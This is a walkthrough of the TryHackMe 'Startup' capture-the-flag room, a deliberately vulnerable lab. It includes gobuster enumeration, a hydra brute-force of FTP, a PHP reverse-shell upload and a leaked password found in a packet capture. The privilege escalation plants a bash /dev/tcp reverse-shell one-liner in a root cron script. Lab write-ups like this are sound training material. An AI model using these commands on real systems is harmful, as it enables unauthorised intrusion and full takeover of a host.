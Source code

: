```yaml
---

title: Walkthrough - Startup
published: true
---
```


Abuse traditional vulnerabilities via untraditional means.

[https://tryhackme.com/room/startup](https://tryhackme.com/room/startup)

* * *

## Welcome to Spice Hut! 

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

* * * 

3 Open Ports

21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61

* * * 

## What is the secret spicy soup recipe? 

![0xskar](/assets/startup01.png)

- ``gobuster dir -u http://10.10.52.133/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php --no-error -t 100``

![0xskar](/assets/startup02.png)

- We get a username "Maya" from ``notice.txt`` try to use this with hydra to get access to ftp or ssh
- ``hydra -l maya -P /usr/share/seclists/Passwords/rockyou.txt -t 16 10.10.52.133 ftp``
- Upload pentestmonkey shell to /ftp via anonymous ftp
- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- ``cat recipe.txt`` to find our first ingredient.

* * * 

## What are the contents of user.txt?

- Our hint is something that doesnt belong...
- Python3 is installed i can ``python3 -m http.server 5000`` and download ``suspicious.pcapng`` from ``/incidents/``
- ``.pcapng`` is a packet capture dump. Can probably open in wireshark.
- checking this out can see a few things such as an attacker uploading a shell.php like me and an incorrect login attempts using ``c4ntg3t3n0ughsp1c3`` as a password....we also see ``lennie``...
- we can login as lennie! and find the flag in their home directory.

![0xskar](/assets/startup03.png)

* * * 

## What are the contents of root.txt?

- our hint is scripts and apparently root is running this in their crontab, because inserting ``sh -i >& /dev/tcp/10.2.127.225/6668 0>&1`` into ``/etc/print.sh`` and setting up a listener on my kali gets a root reverse shell.
- ``cat root.txt`` for our final flag.

* * * 